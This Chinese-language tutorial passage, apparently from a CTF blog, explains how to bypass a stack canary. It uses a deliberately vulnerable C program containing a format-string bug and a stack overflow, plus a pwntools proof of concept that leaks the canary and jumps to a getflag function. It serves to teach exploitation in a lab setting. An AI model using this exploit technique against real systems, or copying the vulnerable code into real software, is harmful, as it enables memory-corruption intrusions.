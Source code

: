 ------

## 绕过canary - 格式化字符串

格式化字符串能够实现任意地址读写，具体的实现可以参考我blog中关于格式化字符串的总结，格式化字符串的细节不是本文讨论的重点。

大体思路就是通过格式化字符串读取canary的值，然后在栈溢出的padding块把canary所在位置的值用正确的canary替换，从而绕过canary的检测。

示例程序：

```
/**
* compile cmd: gcc source.c -m32 -o bin
**/
#include <stdio.h>
#include <unistd.h>

void getflag(void) {
    char flag[100];
    FILE *fp = fopen("./flag", "r");
    if (fp == NULL) {
        puts("get flag error");
    }
    fgets(flag, 100, fp);
    puts(flag);
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void fun(void) {
	char buffer[100];
	read(STDIN_FILENO, buffer, 120);
}

int main(void) {
	char buffer[6];
	init();
	scanf("%6s",buffer);
	printf(buffer);
	fun();
}
```

在第一次scanf的时候输入“%7$x”打印出canary，在fun中利用栈溢出控制eip跳转到getflag。

poc:

```
from pwn import *
context.log_level = 'debug'

cn = process('./bin')

cn.sendline('%7$x')
canary = int(cn.recv(),16)
print hex(canary)

cn.send('a'*100 + p32(canary) + 'a'*12 + p32(0x0804863d))

flag = cn.recv()

log.success('flag is:' + flag)
```
